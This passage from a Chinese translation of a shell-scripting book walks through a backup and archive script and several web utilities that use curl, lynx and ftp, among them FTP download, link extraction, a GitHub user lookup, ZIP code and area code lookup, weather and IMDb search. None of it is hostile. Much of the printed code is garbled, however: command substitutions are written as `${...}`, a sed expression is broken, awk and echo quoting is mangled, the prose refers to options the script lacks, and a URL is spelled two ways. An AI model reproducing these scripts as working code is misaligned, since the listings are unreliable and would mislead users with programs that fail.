    pax -w -x tar | $compress > $output
    failure="$?"
fi
```

```bash
if [ "$noinc" = "0" -a "$failure" = "0" ]; then
	touch -t $timestamp $tsfile
fi
exit 0
```

Listing 6-16：备份脚本

#### 工作原理

对于全系统备份，➊和➋处的`pax`命令承担了所有工作，将其输出通过管道传输给压缩程序（默认是`bzip2`），然后传输到输出文件或设备。增量备份稍微复杂一些，因为标准版本的`tar`不包含任何形式的修改时间测试，而 GNU 版本的`tar`则有。自上次备份以来被修改的文件列表是通过`find`构建并保存到`inclist`临时文件中的。为了提高可移植性，该文件模拟了`tar`的输出格式，随后被直接喂给`pax`。

选择何时为备份标记时间戳是一个很多备份程序容易出错的地方，它们通常将“最后备份时间”标记为程序*完成*备份的时间，而不是*开始*备份的时间。如果在备份过程中有任何文件被修改，将时间戳设置为备份完成时间可能会产生问题，而且随着单次备份完成时间变长，这种情况发生的可能性更高。因为在这种情况下被修改的文件，其最后修改日期将早于时间戳日期，因此在下一次运行增量备份时它们将不会被备份，这会导致糟糕的结果。

但且慢，因为在备份*之前*设置时间戳同样是错误的：如果备份由于某种原因失败，将没有办法撤销已更新的时间戳。

这两个问题都可以通过在备份开始前保存日期和时间（在`timestamp`变量中），但等到备份成功*之后*才使用`touch`的`-t`标志将`$timestamp`的值应用到`$tsfile`来避免。很微妙，对吧？

#### 运行脚本


该脚本有许多选项，所有这些选项都可以忽略，以执行基于自上次运行脚本以来（即自上次增量备份的时间戳以来）哪些文件被修改而进行的默认增量备份。启动参数允许您指定不同的输出文件或设备（`-o output`）、选择全量备份（`-f`）、主动选择增量备份（`-i`，尽管它是默认值），或者在增量备份的情况下防止时间戳文件被更新（`-n`）。

#### 结果

备份脚本不需要参数且易于运行，如 Listing 6-17 所示。

```bash
$ backup
Doing incremental backup, saving output to /tmp/backup.140703.bz2
```

Listing 6-17：运行备份脚本不需要参数，并将结果打印到屏幕上。

正如您所预期的，备份程序的输出并不怎么精彩。但生成的压缩文件足够大，表明其中包含大量数据，您可以在 Listing 6-18 中看到。

```bash
$ ls -l /tmp/backup*
-rw-r--r--r-- 1 taylor wheel 621739008 Jul 14 07:31 backup.140703.bz2
```

Listing 6-18：使用 `ls` 显示备份文件。

### #52 备份目录

与备份整个文件系统的任务相关的是以用户为中心的任务：对特定目录或目录树进行快照。Listing 6-19 中的简单脚本允许用户为指定目录创建压缩的 tar 存档，用于存档或共享目的。

#### 代码

```bash
#!/bin/bash

# archivedir---创建指定目录的压缩存档

maxarchivedir=10			# 大目录的大小（以块为单位）。
compress=gzip			# 更改为您喜欢的压缩程序。
progname=${basename 0}		# 错误消息的更美观的输出格式。

if [ $# -eq 0 ]; then		# 没有参数？这是一个问题。
	echo "Usage: $progname directory" >&2
	exit 1
fi

if [ ! -d $1 ]; then
	echo "${progname}: can't find directory $1 to archive." >&2
	exit 1
fi

if [ "$(basename $1)" != "$1" -o "$1" = "." ]; then
	echo "${progname}: You must specify a subdirectory" >&2
	exit 1
fi

if [ ! -w . ]; then
	echo "${progname}: cannot write archive file to current directory." >&2
	exit 1
fi

# 结果存档是否会大到危险的程度？让我们检查一下...

dirsize="$(du -s $1 | awk '{print $1}')"

if [ $dirsize -gt $maxarchivedir ] ; then
    bin/echo -n "Warning: directory $1 is $dirsize blocks. Proceed? [n] "
    read answer
    answer=${echo $answer | tr '[:upper:]' '[:lower:]' | cut -c1-}
    if [ "$answer" != "y" ] ; then
        echo "${progname}: archive of directory $1 canceled." >&2
        exit 0
    fi
fi

archivename="$1.tgz"

if tar cf - $1 | $compress > $archivename ; then
    echo "Directory $1 archived as $archivename"
else
    echo "Warning: tar encountered errors archiving $1"
fi

exit 0
```

Listing 6-19：`archivedir` 脚本。

#### 工作原理

此脚本几乎全部是错误检查代码，以确保它永远不会导致数据丢失或创建错误的快照。除了使用典型的测试来验证启动参数的存在性和适当性之外，此脚本还强制用户处于要压缩和存档的子目录的父目录中，从而确保存档文件在完成后保存在正确的位置。测试 `if [ ! -w . ]` 验证用户对当前目录具有写权限。而且该脚本在存档前甚至会警告用户，如果生成的备份文件异常大。

最后，执行指定目录存档的实际命令是 `tar` ❷。该命令的返回码经过测试，以确保如果发生任何类型的错误，脚本绝不会删除该目录。

#### 运行脚本

调用此脚本时，应将要存档的目标目录名称作为唯一的参数。为了确保脚本不会尝试存档自身，它要求指定当前目录的一个子目录作为参数，而不是 `.`，如 Listing 6-20 所示。

#### 结果

```bash
$ archivedir scripts
Warning: directory scripts is 2224 blocks. Proceed? [n] n
archivedir: archive of directory scripts canceled.
```

Listing 6-20：在 `scripts` 目录上运行 `archivedir` 脚本，但取消了操作。

这看起来像是一个很大的存档，所以我们犹豫是否创建它，但经过思考后，我们决定最终没有理由不继续。

```bash
$ archivedir scripts
Warning: directory scripts is 2224 blocks. Proceed? [n] y
Directory scripts archived as scripts.tgz
```

以下是结果：

```bash
$ ls -l scripts.tgz
-rw-r--r-- 1 taylor staff 325648 Jul 08:01 scripts.tgz
```

> **注意** 这里给开发者的一个建议：在积极开发项目时，可以在 `cron` 任务中使用 `archivedir`，每晚自动为您的工作代码拍摄快照以用于存档。

# 7 WEB 和互联网用户

Unix 真正大放异彩的一个领域就是互联网。无论您是想在办公桌下运行一个快速服务器，还是简单地智能化且高效地浏览网页，在涉及互联网交互时，几乎没有什么东西是不能嵌入到 shell 脚本中的。

互联网工具是可脚本化的，尽管您可能从未这样想过。例如，FTP（一个似乎永远陷入调试模式的程序）可以用一些非常有趣的方式编写脚本，这在第 174 页的脚本 #53 中有所探讨。Shell 脚本通常可以提高大多数处理互联网某些方面的常见行实用程序的性能和输出。

本书的第一版向读者保证，互联网脚本编写者工具箱中最好的工具是 `lynx`；现在我们建议使用 `curl`。这两个工具都为 Web 提供了纯文本界面，但 `lynx` 试图提供类似浏览器的体验，而 `curl` 专为脚本设计，可以导出您想要检查的任何页面的原始 HTML 源码。

例如，以下内容显示了由 `curl` 提供的 *Dave on Film* 首页源码的前七行：

```bash
$ curl -s http://www.daveonfilm.com/ | head -7
<!DOCTYPE HTML>
<html><lang="en-US">
<head>
<meta charset="UTF-8" />
<link rel="profile" href="http://gmpg.org/xfn/11" />
<link rel="pingback" href="http://www.daveonfilm.com/xmlrpc.php" />
<title>Dave On Film: Smart Movie Reviews from Dave Taylor</title>
```

如果 `curl` 不可用，您可以使用 `lynx` 达到同样的效果，但如果您两者都有，我们推荐 `curl`。这就是我们在本章中将要使用的工具。

> **警告** 本章中网站爬虫脚本的一个局限性是，如果脚本依赖的网站在本书编写之后更改了布局或 API，脚本可能会失效。但如果您能阅读 HTML 或 JSON（即使不能完全理解），您应该能够修复这些脚本。追踪其他站点的问题正是创建可扩展标记语言（XML）的原因：它允许站点开发人员将网页内容与布局规则分开提供。

### #53 通过 FTP 下载文件

互联网最初的“杀手级应用”之一就是文件传输，而最简单的解决方案之一就是 FTP（文件传输协议）。从根本上说，所有的互联网交互都基于文件传输，无论是 Web 浏览器请求 HTML 文档及其随附的图像文件，聊天服务器来回转发讨论行，还是电子邮件从地球的一端传输到另一端。

最初的 FTP 程序仍然存在，虽然其界面简陋，但该程序功能强大、能力出众，非常值得利用。现在有很多更新的 FTP 程序，特别是 FileZilla（http://filezilla-project.org/）和 NcFTP（http://www.ncftp.org/），此外还有许多您可以添加到 FTP 的精美图形界面，使其更用户友好。然而，借助一些 shell 脚本封装，FTP 在上传和下载文件方面表现得非常好。

例如，FTP 的一个典型用例是从互联网下载文件，我们将使用 Listing 7-1 中的脚本来实现。通常，文件将位于匿名 FTP 服务器上，且 URL 类似于 `ftp://<somesever>/<path>/<filename>/`。

#### 代码

```bash
#!/bin/bash

# ftpget--给定一个 ftp 风格的 URL，对其进行解包并尝试使用
# 匿名 ftp 获取文件

anonpass="$LGNNAME@$(hostname)"

if [ $# -ne 1 ] ; then
{
    echo "Usage: $0 ftp://..." >&2
    exit 1
}

# 典型 URL: ftp://ftp.ncftp.com/unixstuff/q2getty.tar.gz

if [ "$(echo $1 | cut -c1-6)" != "ftp://" ] ; then
    echo "$0: Malformed url. I need it to start with ftp://" >&2
    exit 1
fi

server="$(echo $1 | cut -d/ -f3)"
filename="$(echo $1 | cut -d/ -f4-)"
basefile="$(basename $filename)"

echo $0: Downloading $basefile from server $server

ftp -np << EOF
open $server
user ftp $anonpass
get "$filename" "$basefile"
quit
EOF

if [ $? -eq 0 ] ; then
    ls -l $basefile
fi

exit 0
```

Listing 7-1：`ftpget` 脚本。

#### 工作原理

该脚本的核心是 ❶ 开始处传递给 FTP 程序的命令序列。这展示了批处理文件的本质：将一系列指令传递给另一个程序，使得接收程序（在本例中为 FTP）认为这些指令是由用户输入的。在这里，我们指定要打开的服务器连接，指定匿名用户（FTP）以及脚本配置中指定的任何默认密码（通常是您的电子邮件地址），然后从 FTP 站点获取指定文件并退出传输。

#### 运行脚本

这个脚本使用起来非常简单：只需完整指定一个 FTP URL，它就会将文件下载到当前工作目录，具体细节见 Listing 7-2。

#### 运行结果

```bash
$ ftpget ftp://ftp.ncftp.com/unixstuff/q2getty.tar.gz
ftpget: Downloading q2getty.tar.gz from server ftp.ncftp.com
-rw-lr--r-- 1 taylor staff 4817 Aug 14 1998 q2getty.tar.gz
```

Listing 7-2：运行 `ftpget` 脚本。

某些版本的 FTP 比其他版本更详细，而且客户端和服务器协议之间出现轻微不匹配的情况并不罕见，因此这些详细版本的 FTP 可能会弹出看起来很可怕的错误，例如 `Unimplemented command`。您可以安全地忽略这些错误。例如，Listing 7-3 显示了在 OS X 上运行的同一个脚本。

```text
$ ftpget ftp://ftp.ncftp.com/ncftp/ncftp-3.1.5-src.tar.bz2
../.scripts/New/053-ftpget.sh: Downloading q2getty.tar.gz from server ftp.ncftp.com
ncftp.com.
Connected to ncftp.com.
220 ncftpd.com NCftpD Server (licensed copy) ready.
331 Guest login ok, send your complete e-mail address as password.
230-You are user #2 of 16 simultaneous users allowed.
230-
230 Logged in anonymously.
Remote system type is UNIX.
Using binary mode to transfer files.
local: q2getty.tar.gz remote: unixstuff/q2getty.tar.gz
227 Entering Passive Mode (209,197,102,38,194,11)
150 Data connection accepted from 97.124.161.251:57849; transfer starting for q2getty.tar.gz (4817 bytes).
1005 | ************************************************************ | 4817
67.41 KiB/s 00:00 ETA
226 Transfer completed.
4817 bytes received in 00:00 (63.28 KiB/s)
221 Goodbye.
-rw-lr--r-- 1 taylor staff 4817 Aug 14 1998 q2getty.tar.gz
```

Listing 7-3：在 OS X 上运行 `ftpget` 脚本。

如果您的 FTP 输出过于详细且您使用的是 OS X，可以通过在脚本的 FTP 调用中添加 `-v` 标志来使其安静下来（也就是说，使用 `ftp -nv` 而不是 `ftp -n`）。

#### 修改脚本

如果下载的文件具有某些文件扩展名，此脚本可以扩展为自动解压下载的文件（关于如何实现，请参阅第 109 页的脚本 #33）。许多压缩文件（如 `.tar.gz` 和 `.tar.bz2`）默认可以使用系统的 `tar` 命令解压。

您还可以对该脚本进行微调，使其成为将指定文件`上传`到 FTP 服务器的简单工具。如果服务器支持匿名连接（如今由于脚本小子和其他不法之徒，很少有服务器支持，但那是另一个话题），您真正需要做的就是在命令行或脚本中指定目标目录，并将主脚本中的 `get` 更改为 `put`，如下所示：

```bash
ftp -np << EOF
open $server
user ftp $anonpass
cd $destdir
put "$filename"
quit
EOF
```

为了处理受密码保护的账户，您可以让脚本交互式地提示输入密码，方法是在 `read` 语句之前关闭回显，并在完成后重新开启：

```bash
/bin/echo -n "Password for ${user}: "
stty -echo
read password
stty echo
echo ""
```

然而，一种更智能的提示密码方式是直接让 FTP 程序自己处理。按照我们脚本的编写方式，这种情况就会发生，因为如果访问指定的 FTP 账户需要密码，FTP 程序本身会提示输入。

### #54 从网页中提取 URL

`lynx` 一个直接的 shell 脚本应用是从给定的网页中提取 URL 列表，这在从互联网抓取链接时非常有用。我们说过在本版书中将 `lynx` 切换为了 `curl`，但事实证明，对于这个脚本（见 Listing 7-4），`lynx` 的使用比 `curl` 简单约一百倍，因为 `lynx` 自动解析 HTML，而 `curl` 则强制您自行解析 HTML。

您的系统中没有 `lynx`？如今大多数 Unix 系统都有软件包管理器，例如 Red Hat 上的 `yum`、Debian 上的 `apt` 以及 OS X 上的 `brew`（尽管 `brew` 不是默认安装的），您可以使用它们来安装 `lynx`。如果您更喜欢自行编译 `lynx`，或者只想下载预构建的二进制文件，可以从 http://lynx.browser.org/ 下载。

#### 代码


```bash
#!/bin/bash

# getlinks--给定一个 URL，返回其所有的相对链接和绝对链接。
# 有三个选项：-d 生成每个链接的主域名，
# -l 仅列出网站内部的链接（即同一站点上的其他页面），
# 以及 -x 仅生成外部链接（与 -l 相反）。

if [ $# -eq 0 ] ; then
    echo "Usage: $0 [-d|-l|-x] url" >&2
    echo "-d=domains only, -l=internal refs only, -x=external only" >&2
    exit 1
fi

if [ $# -gt 1 ] ; then
    case "$1" in
        -d) lastcmd="cut -d/ -f3|sort|uniq"
            shift
            ;;
        -l) basedomain="http://$(echo $2 | cut -d/ -f3)/"
            lastcmd="grep \"^${basedomain}\" |sed \"s|^${basedomain}||g\"|sort|uniq"
            shift
            ;;
        -x) basedomain="http://$(echo $2 | cut -d/ -f3)/"
            lastcmd="grep -v \"^${basedomain}\"|sort|uniq"
            shift
            ;;
        *) echo "$0: unknown option specified: $1" >&2
            exit 1
    esac
else
    lastcmd="sort|uniq"
fi

lynx -dump "$1"|
    sed -n '/^References$/,${p'|
    grep -E '[[:digit:]]+.'|
    awk '{print $2}'|
    cut -d\? -f1|
    eval $lastcmd

exit 0
```

Listing 7.4：`getlinks` 脚本

## 工作原理

在显示页面时，`lynx` 会尽力格式化并显示页面的文本，随后列出在该页面上找到的所有超文本引用（即链接）。该脚本通过调用 `sed` 来打印网页文本中 “References” 字符串之后的所有内容 ❶，从而仅提取链接。然后，脚本根据用户指定的标志对链接列表进行处理。

该脚本演示的一个有趣技巧是设置变量 `lastcmd`（❷、❸、❹、❺）的方式，用于根据用户指定的标志过滤提取的链接列表。一旦 `lastcmd` 被设置，就会使用极其方便的 `eval` 命令 ❻ 来强制 shell 将变量的内容解释为命令而不是变量。

## 运行脚本

默认情况下，此脚本会输出在指定网页上找到的所有链接列表，而不仅仅是以 `http://` 开头的链接。不过，可以指定三个可选的命令行标志来更改结果：

- `-d` 仅生成所有匹配 URL 的域名。
- `-l` 仅生成相对引用列表（即在当前页面同一服务器上找到的引用）。
- `-x` 仅生成绝对引用（指向不同服务器的 URL）。

## 运行结果

一个简单的请求是列出指定网站首页的所有链接，如 Listing 7-5 所示。

```text
$ getlinks http://www.daveonfilm.com/ | head -10
http://instagram.com/ditaylor
http://pinterest.com/ditaylor/
http://plus.google.com/110193533410016731852
https://plus.google.com/u/0/110193533410016731852
https://twitter.com/DaveTaylor
http://www.amazon.com/Doctor-Who-Shada-Adventures-Douglas/
http://www.amazon.com/daveonfilm.com/
http://www.daveonfilm.com/about-me/
http://www.daveonfilm.com/author/ditaylor/
http://www.daveonfilm.com/category/film-movie-reviews/
```

Listing 7-5：运行 `getlinks` 脚本

另一种可能性是请求特定站点引用的所有域名列表。这一次，我们先使用标准的 Unix 工具 `wc` 来检查总共找到了多少个链接：

```text
$ getlinks http://www.amazon.com/ | wc -l
219
```

亚马逊的首页有 219 个链接。令人印象深刻！这代表了多少个不同的域名？让我们使用 `-d` 标志生成一个列表：

```text
$ getlinks -d http://www.amazon.com/ | head -10
amazonlocal.com
aws.amazon.com
fresh.amazon.com
kdp.amazon.com
services.amazon.com
www.6pm.com
www.abebooks.com
www.acx.com
www.afterschool.com
www.alexa.com
```

亚马逊通常不会将链接指向其自有站点之外，但首页上确实潜伏着一些合作伙伴的链接。当然，其他网站的情况则有所不同。

如果我们把亚马逊页面上的链接分为相对链接和绝对链接会怎样？

```text
$ getlinks -a http://www.amazon.com/ | wc -l
51
$ getlinks -r http://www.amazon.com/ | wc -l
222
```

正如你可能预料的那样，亚马逊指向其内部站点的相对链接数量是绝对链接（指向其他网站）的四倍。必须要把客户留在自己的页面上！

## 脚本改造

你可以看到 `getlinks` 作为站点分析工具是非常有用的。关于如何增强该脚本，请保持关注：第 217 页的脚本 #69 对此脚本进行了很好的补充，使我们能够快速检查站点上的所有超文本引用是否有效。

# #55 获取 GitHub 用户信息

GitHub 已经成长为开源行业和全球开放协作的巨大助力。许多系统管理员和开发人员会访问 GitHub 来拉取源代码或向开源项目报告问题。由于 GitHub 本质上是一个开发者的社交平台，快速了解用户的基本信息会很有用。示例 7-6 中的脚本打印了给定 GitHub 用户的一些信息，它很好地介绍了功能强大的 GitHub API。

## 代码

```bash
#!/bin/bash
# githubuser--给定一个 GitHub 用户名，拉取该用户的信息

if [ $# -ne 1 ]; then
    echo "Usage: $0 <username>"
    exit 1
fi

# -s 禁用了 curl 通常较为详细的输出。
curl -s -s "https://api.github.com/users/$1" | \
    awk -F'"',
    /"^name\":/ {
        print $4 " is the name of the GitHub user."
    }
    /"^followers\":/{
        split($3, a, " ")
        sub(/, "", "", a[2])
        print "They have "a[2]" followers."
    }
    /"^following\":/{
        split($3, a, " ")
        sub(/, "", "", a[2])
        print "They are following "a[2]" other users."
    }
    /"^created_at\":/{
        print "Their account was created on "$4"."
    }

exit 0
```

示例 7.6：`githubuser` 脚本

## 工作原理

诚然，这几乎更像是一个 `awk` 脚本而不是 bash 脚本，但有时你需要 `awk` 提供的强大解析能力（GitHub API 返回的是 JSON）。我们使用 `curl` 请求 GitHub 获取用户 ❶（作为脚本的参数），然后将 JSON 通过管道传给 `awk`。在 `awk` 中，我们将字段分隔符指定为双引号字符，这会使解析 JSON 变得简单得多。然后，我们在 `awk` 脚本中使用几个正则表达式匹配 JSON 并以用户友好的方式打印结果。

## 运行脚本

该脚本接受一个参数：要在 GitHub 上查询的用户。如果提供的用户名不存在，则不会打印任何内容。

## 运行结果

当传递有效的用户名时，脚本应打印出 GitHub 用户的友好摘要，如示例 7.7 所示。

```text
$ githubuser brandonprry
Brandon Perry is the name of the GitHub user.
They have 67 followers.
They are following 0 other users.
Their account was created on 2010-11-16T02:06:41Z.
```

示例 7.7：运行 `githubuser` 脚本

## 脚本改造

由于可以从 GitHub API 获取大量信息，这个脚本具有很大的潜力。在本脚本中，我们仅打印了返回 JSON 中的四个值。基于 API 提供的信息为给定用户生成一份“简历”（就像许多 Web 服务提供的那样），仅仅是其中一种可能性。

# #56 ZIP 邮政编码查询

为了演示另一种网页抓取技术（这次使用 `curl`），让我们创建一个简单的 ZIP 邮政编码查询工具。给示例 7-8 中的脚本一个 ZIP 码，它将报告该代码所属的城市和州。非常简单。

你的第一反应可能是使用美国邮政服务（USPS）的官方网站，但我们将利用另一个站点 `http://city-data.com/`，它将每个 ZIP 码配置为独立的网页，因此信息更容易提取。

## 代码

```bash
#!/bin/bash

# zipcode--给定一个 ZIP 码，识别其城市和州。使用 city-data.com，
# 该网站将每个 ZIP 码配置为独立的网页。

baseURL="http://www.city-data.com/zips"

/bin/echo -n "ZIP code $1 is in "

curl -s -dump "$baseURL/$1.html" | \
    grep -i '<title>' | \
    cut -d( -f2 | cut -d) -f1

exit 0
```

示例 7-8：`zipcode` 脚本

## 工作原理

`http://city-data.com/` 上 ZIP 码信息页的 URL 结构是一致的，ZIP 码本身作为 URL 的最后一部分：

`http://www.city-data.com/zips/80304.html`

这种一致性使得为给定的 ZIP 码即时创建相应的 URL 变得非常容易。结果页面的标题中包含城市名称，方便地由左括号和右括号标出，如下所示：

```html
<title>80304 Zip Code (Boulder, Colorado) Profile - homes, apartments, schools, population, income, averages, housing, demographics, location, statistics, residents and real estate info</title>
```

虽然很长，但处理起来相当简单！

## 运行脚本

调用该脚本的标准方式是在命令行中指定所需的 ZIP 码。如果该码有效，将显示城市和州，如示例 7-9 所示。

## 运行结果

```text
$ zipcode 10010
ZIP code 10010 is in New York, New York
$ zipcode 30001
ZIP code 30001 is in <title>Page not found - City-Data.com</title>
$ zipcode 50111
ZIP code 50111 is in Grimes, Iowa
```

示例 7-9：运行 `zipcode` 脚本

由于 30001 不是一个真实的 ZIP 码，脚本生成了一个“Page not found”错误。这有点粗糙，我们可以做得更好。

## 脚本改造

对该脚本最明显的改造将是对错误做出响应，而不是直接喷出那段丑陋的 `<title>Page not found - City-Data.com</title>` 序列。更有用的是添加一个 `-f` 标志，告诉脚本显示指定区域的更多信息，因为 `http://city-data.com/` 提供了除城市名称之外的大量信息——包括土地面积、人口统计和房价。

# #57 区号查询

脚本 #56 中 ZIP 码查询主题的一个变体是区号查询。这个查询事实证明非常简单，因为有一些非常容易解析的包含区号的网页。`http://www.benetyee.org/uscd-pages/area.html` 上的页面尤其容易解析，不仅因为它采用了表格形式，而且因为作者使用 HTML 属性标识了元素。例如，定义区号 207 的行如下所示：

```html
<tr><td align=center><a name="207">207</a></td><td><td align=center>ME</td></td><td align=center>-5</td></td><td> Maine</td></tr>
```

我们将使用此站点在示例 7-10 的脚本中查询区号。

## 代码

```bash
#!/bin/bash

# areacode--给定一个三位数的美国电话区号，使用 Bennet Yee 网站上的
# 简单表格数据识别城市和州。

source="http://www.bennetyee.org/ucsd-pages/area.html"

if [ -z "$1" ]; then
    echo "usage: areacode <three-digit US telephone area code>"
    exit 1
fi

# wc -c 返回字符数 + 行尾符，所以 3 位数字 = 4 个字符
if [ "$(echo $1 | wc -c)" -ne 4 ]; then
    echo "areacode: wrong length: only works with three-digit US area codes"
    exit 1
fi

# 是否全部为数字？
if [ ! -z "$(echo $1 | sed 's/[[:digit:]]//g')" ]; then
    echo "areacode: not-digits: area codes can only be made up of digits"
    exit 1
fi

# 现在，最后，让我们查询区号...

result="$(curl -s -dump $source | grep "name=\"$1" | \
    sed 's/[^>]*>\"//g;s/" //g' | \
    cut -f2 -d'|' | cut -f1 -d'(')"

echo "Area code $1 = $result"

exit 0
```

示例 7-10：`areacode` 脚本

## 工作原理

此 shell 脚本中的代码主要是输入验证，确保用户提供的数据是一个有效的区号。脚本的核心是一个 `curl` 调用，其输出被传给 `sed` 进行清理，然后使用 `cut` 截取我们需要显示给用户的内容。

## 运行脚本

此脚本接受一个参数，即要查询信息的区号。示例 7-11 给出了该脚本的使用示例。

## 运行结果

```text
$ areacode 817
Area code 817 = N Cent. Texas: Fort Worth area
$ areacode 512
Area code 512 = S Texas: Austin
$ areacode 903
Area code 903 = NE Texas: Tyler
```

Listing 7-11：测试 `areacode` 脚本

## 改造脚本

一个简单的改造方法是反转搜索逻辑，让你提供州和城市，然后脚本打印出该城市所有的区号。

# #58 追踪天气

整天待在办公室或服务器机房里，面对着终端，有时会让你渴望走到户外，尤其是天气非常好的时候。Weather Underground（`http://www.wunderground.com/`）是一个很棒的网站，如果你注册一个 API 密钥，它实际上为开发者提供了一个免费的 API。有了 API 密钥，我们可以编写一个简单的 shell 脚本（如 Listing 7-12 所示），来告诉我们外面的天气有多好（或多糟）。然后我们就可以决定出去散散步是否真的是个好主意。

## 代码


```bash
#!/bin/bash
# weather---Uses the Wunderground API to get the weather for a given ZIP code

if [ $# -ne 1 ]; then
    echo "Usage: $0 <zipcode>"
    exit 1
fi

apikey="b03fdsaf3b2e7cd23"  # Not a real API key--use your own.

weather="curl -s \
    "https://api.wunderground.com/api/$apikey/conditions/q/$1.xml"
state=`xmllint --xpath \
    "//response/current_observation/display_location/full/text()" \
    <(echo $weather)`
zip=`xmllint --xpath \
    "//response/current_observation/display_location/zip/text()" \
    <(echo $weather)`
current=`xmllint --xpath \
    "//response/current_observation/temp_f/text()" \
    <(echo $weather)`
condition=`xmllint --xpath \
    "//response/current_observation/weather/text()" \
    <(echo $weather)`

echo "$state" ("$zip") : Current temp "$current"F and "$condition" outside."

exit 0
```

Listing 7-12: weather 脚本

### 工作原理

在这个脚本中，我们使用 `curl` 来调用 Wunderground API，并将 HTTP 响应数据保存在 `weather` 变量中 ❶。然后，我们使用 `xmllint` 工具（可以通过你喜欢的包管理器如 `apt`、`yum` 或 `brew` 轻松安装）对返回的数据执行 XPath 查询 ❷。在调用 `xmllint` 时，我们在末尾使用了 `<(echo $weather)` 这种有趣的 bash 语法。这种语法将内部命令的输出传递给命令作为文件描述符，因此程序认为它在读取一个真实的文件。在从返回的 XML 中收集所有相关信息后，我们打印一条包含通用天气统计数据的友好消息。

### 运行脚本

当你调用脚本时，只需指定所需的邮政编码（ZIP code），如 Listing 7-13 所示。非常简单！

### 运行结果

```text
$ weather 78727
Austin, TX (78727) : Current temp 59.0F and Clear outside.
$ weather 80304
Boulder, CO (80304) : Current temp 59.2F and Clear outside.
$ weather 10010
New York, NY (10010) : Current temp 68.7F and Clear outside.
```

Listing 7-13: 测试 weather 脚本

### 改造脚本

我们有一个秘密。这个脚本实际上可以接收不仅仅是邮政编码。你还可以在 Wunderground API 中指定区域，例如 `CA/San_Francisco`（试着将其作为 weather 脚本的参数！）。然而，这种格式对用户并不太友好：它需要用下划线代替空格，并且中间需要斜杠。如果未传递参数，则增加请求州缩写和城市的功能，然后将任何空格替换为下划线，这将是一个有用的增强。像往常一样，这个脚本还可以增加更多的错误检查代码。如果你输入一个四位数的邮政编码会怎样？或者一个未分配的邮政编码呢？

## #59 从 IMDb 挖掘电影信息

Listing 7-14 中的脚本演示了一种通过 `lynx` 访问互联网的更高级方法，通过搜索互联网电影数据库（`http://www.imdb.com/`）来查找匹配指定模式的电影。IMDb 为每部电影、电视剧和每一集电视节目分配了一个唯一的数字代码；如果用户指定该代码，此脚本将返回电影的梗概。否则，它将根据标题或部分标题返回匹配的电影列表。脚本根据查询类型（数字 ID 或电影标题）访问不同的 URL，然后缓存结果，以便多次挖掘页面以提取不同的信息。而且，正如你将看到的，它使用了大量——非常多！——的 `sed` 和 `grep` 调用。

### 代码

```bash
#!/bin/bash
# moviedata--Given a movie or TV title, returns a list of matches. If the user
# specifies an IMDb numeric index number, however, returns the synopsis of
# the film instead. Uses the Internet Movie Database.

titleurl="http://www.imdb.com/title/tt"
imdburl="http://www.imdb.com/find?s=tt&exact=true&ref_fn_tt_ex&q="
tempoutput="/tmp/moviedata.$$"

summarize_film()
{
    # Produce an attractive synopsis of the film.

    grep "<title>" $tempoutput | sed 's/<[^>]*>//g;s/(more)//'

    grep --color=never -A2 '<h5 >Plot': $tempoutput | tail -1 | \
    cut -d< -f1 | fmt | sed 's/^/  / '

    exit 0
}

trap "rm -f $tempoutput" 0 1 15

if [ $# -eq 0 ]; then
    echo "Usage: $0 {movie title | movie ID}" >&2
    exit 1
fi

##########
# Checks whether we're asking for a title by IMDb title number

nodigits="$(echo $1 | sed 's/[[:digit:]]*//g')"

if [ $# -eq 1 -a -z "$nodigits" ]; then
    lynx -source "$titleurl$1/combined" > $tempoutput
    summarize_film
    exit 0
fi

##########
# It's not an IMDb title number, so let's go with the search...

fixedname="${echo $@ | tr ' ' ' '+'}"  # for the URL

url="$imdburl$fixedname"

lynx -source $imdburl$fixedname > $tempoutput

# No results?

fail=$(grep --color=never '<h1 class="findHeader">No ' $tempoutput)

# If there's more than one matching title...

if [ ! -z "$fail" ] ; then
    echo "Failed: no results found for $1"
    exit 1
elif [ ! -z "$(grep '<h1 class="findHeader">Displaying' $tempoutput)" ] ; then
    grep --color=never '/title/tt' $tempoutput | \
    sed 's/\< / \
    /G' | \
    grep -vE '(\.[png|.|jpg.] ) [^*]$' | \
    grep -A 1 "a href=" | \
    grep -v '^--$' | \
    sed 's/<a href="/title/tt//g;s/</a>// ' | \
    awk '({ NR % 2 == 1 }) { title = $0 } ({ NR % 2 == 0 }) { print title " " $0 }' | \
    sed 's/\.*\.:/ ' | \
    sort
fi

exit 0
```

Listing 7-14: moviedata 脚本

### 工作原理

该脚本根据指定的命令行参数是电影标题还是 IMDb ID 号来构建不同的 URL。如果用户通过 ID 号指定电影，脚本将构建相应的 URL，下载内容，将 `lynx` 输出保存到 `tempout` 文件中，最后调用 `summarize_film()`。这并不难。

但如果用户指定的是标题，脚本将构建一个 IMDb 搜索查询的 URL，并将结果页面保存到临时文件中。如果 IMDb 找不到匹配项，则返回 HTML 中 `class="findHeader"` 的 `<h1` 标签将显示 "No results"。这就是检查部分所验证的内容。随后的测试很简单：如果 `$fail` 的长度不为零，脚本就可以报告未找到结果。

然而，如果结果长度为零，这意味着 `$tempfile` 现在包含一个或多个符合用户模式的成功搜索结果。所有这些结果都可以通过在源码中搜索 `/title/tt` 模式来提取，但有一个注意事项：IMDb 并没有让解析结果变得简单，因为任何给定的标题链接都有多个匹配项。接下来的那串复杂的 `sed|grep|sed` 序列试图识别并删除重复的匹配项，同时保留重要的项。

此外，当 IMDb 有一个像 "Lawrence of Arabia (1962)" 这样的匹配项时，事实证明标题和年份是结果中两行不同的 HTML 元素。唉。然而，我们需要年份来区分在不同年份发行且具有相同标题的电影。这就是 `awk` 语句以一种巧妙的方式所做的事情。

如果你不熟悉 `awk`，`awk` 脚本的一般格式是 `(condition) { action }`。这一行将奇数行保存在 `$title` 中，然后，在偶数行（年份和匹配类型数据）中，它将前一行和当前行的数据作为一行输出。

### 运行脚本

虽然简短，但这个脚本对输入格式非常灵活，如 Listing 7-15 所示。你可以用引号指定电影标题，或者用单独的单词指定，然后你可以指定八位 IMDb ID 值来选择特定的匹配项。

### 运行结果

```text
$ moviedata lawrence of arabia
0056172: Lawrence of Arabia (1962)
0245226: Lawrence of Arabia (1935)
0390742: Mighty Moments from World History (1985) (TV Series)
1471868: Mystery Files (2010) (TV Series)
1471868: Mystery Files (2010) (TV Series)
1478071: Lawrence of Arabia (1985) (TV Episode)
1942509: Lawrence of Arabia (TV Episode)
1958322: Lawrence of Arabia (2011) (TV Episode)
$ moviedata 0056172
Lawrence of Arabia (1962)
  A flamboyant and controversial British military figure and his
  conflicted loyalties during his World War I service in the Middle East.
```

Listing 7-15: 运行 moviedata 脚本

### 改造脚本

